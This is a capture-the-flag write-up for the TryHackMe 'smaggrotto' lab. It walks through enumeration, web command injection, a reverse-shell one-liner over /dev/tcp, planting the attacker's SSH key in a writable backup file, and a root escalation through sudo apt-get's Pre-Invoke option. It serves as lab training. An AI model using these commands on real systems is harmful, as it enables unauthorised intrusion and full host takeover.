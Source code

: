 ## smaggrotto
https://tryhackme.com/room/smaggrotto

## Enum
```
nmap -Pn -sC -sV -sS 10.10.140.10 -vv -T4
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://smag.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
.hta                    [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 432ms]
.htpasswd               [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 3048ms]
.htaccess               [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 5185ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 301ms]
mail                    [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 325ms]
server-status           [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 310ms]
:: Progress: [4713/4713] :: Job [1/1] :: 130 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```
![image](https://user-images.githubusercontent.com/6504854/185596553-fdf7e370-a5c9-44a0-b4e8-402da6bc7ac5.png)

![image](https://user-images.githubusercontent.com/6504854/185596651-d121de38-a8f0-4745-9f36-85eed03b8793.png)

![image](https://user-images.githubusercontent.com/6504854/185596726-dea57b8c-54be-492d-bfd7-ad9e5c198f04.png)

![image](https://user-images.githubusercontent.com/6504854/185596999-8fb87c11-0a92-4234-a16f-a9f4b3160b96.png)

![image](https://user-images.githubusercontent.com/6504854/185597181-474b6e66-d724-464e-b51b-fe3b5b638503.png)

![image](https://user-images.githubusercontent.com/6504854/185597637-2d18c160-c8e1-43eb-b844-c1f0463c3e8b.png)

![image](https://user-images.githubusercontent.com/6504854/185597959-abcf5303-2341-48dc-913d-5d46e82573ec.png)

![image](https://user-images.githubusercontent.com/6504854/185600982-93191c3e-3277-43ab-a461-38f6b56779a6.png)
![image](https://user-images.githubusercontent.com/6504854/185601154-96a54090-a4f9-4db2-89fe-a46e665520b1.png)

🏴 No response but it's sure to work command injection.

```
bash -c 'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

![image](https://user-images.githubusercontent.com/6504854/185599033-c725d323-0a71-4062-a9d0-7d5f3f2c95ea.png)

🏴 It worked revers-shell.OK!

## Flag
I runned linpeas and found /opt/.backups/jake_id_rsa.pub.backup contains jake's key. 

```
┌──(kali)-[~]
└─$ ssh-keygen -f jake_key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in jake_key
Your public key has been saved in jake_key.pub

┌──(kali)-[~]
└─$ cat jake_key.pub
ssh-rsa AAAAB3NzaC1...Yp0RSnZVB1vYlTApTKG4M=
```

```
www-data@smag:/home/jake$ echo 'ssh-rsa AAAAB3NzaC1...Yp0RSnZVB1vYlTApTKG4M=' > /opt/.backups/jake_id_rsa.pub.backup
```

```
┌──(kali)-[~]
└─$ ssh jake@10.10.140.10 -i jake_key
```

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020

jake@smag:~$ cat user.txt

jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# cat /root/root.txt
```

Thank you for your time. Happy Hacking! 😄
